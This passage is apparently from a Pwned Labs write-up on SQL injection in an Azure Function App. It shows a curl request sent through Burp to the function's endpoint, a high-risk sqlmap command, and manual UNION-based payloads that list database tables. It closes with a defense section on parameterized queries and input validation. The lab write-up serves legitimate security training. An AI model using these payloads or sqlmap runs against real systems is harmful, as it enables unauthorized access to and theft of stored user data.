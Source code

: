 ```
  "ItemArray": [
    18,
    "Mason Lopez",
    "mason.lopez@lycos.com",
    "Basic"
  ],
  "HasErrors": false,
  "ID": 18,
  "Name": "Mason Lopez",
  "Email": "mason.lopez@lycos.com",
  "SubscriptionType": "Basic"
}                             
```
The table has columns named `Name`, `Email` and `SubscriptionType`. We can send request to Burp
```
└─$ https_proxy=http://127.0.0.1:8080 curl https://mbt-subscriptions.azurewebsites.net/api/HttpTrigger1 -d '{"email": "mason.lopez@lycos.com"}' -k
```

From there we can play around with different SQLi payloads. But we can use `sqlmap` for faster exploitation
```
└─$ sqlmap -r sqli.req --batch --level 5 --risk 3 -dbms 'Microsoft SQL Server'
```
Manually, we find working payload
```
{"email": "nonexist' UNION SELECT 1,2,3,4 -- -"}
```
By working around with it, we retrieve [existing databases and tables](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
```
{"email": "nonexist' UNION SELECT 1,table_name,3,4 from information_schema.tables-- -"}
```

![](exploit-sql-injection-in-azure-function-app-8.png)

# Attack path
Attack path visualization created by [Mathias Persson](https://www.linkedin.com/in/mathias-persson-582b60197/) for Pwned Labs

![](exploit-sql-injection-in-azure-function-app-7.png)

# Defense
Based on lab's [Defense](https://pwnedlabs.io/labs/escalate-gcp-privileges-with-implicit-delegation) section.

In order to mitigate this attack the function app should use parameterized queries (prepared statements), that separate SQL logic from data. Below, `?` is a placeholder for a parameter, and the actual value is bound to the query through a separate function call.
```
SELECT * FROM <table> WHERE Email = ?;
```
The function code should validate and sanitize all user inputs to ensure they conform to expected formats (like a valid email format in this case). 

Reading: [https://learn.microsoft.com/en-us/azure/azure-functions/security-concepts?tabs=v4](https://learn.microsoft.com/en-us/azure/azure-functions/security-concepts?tabs=v4)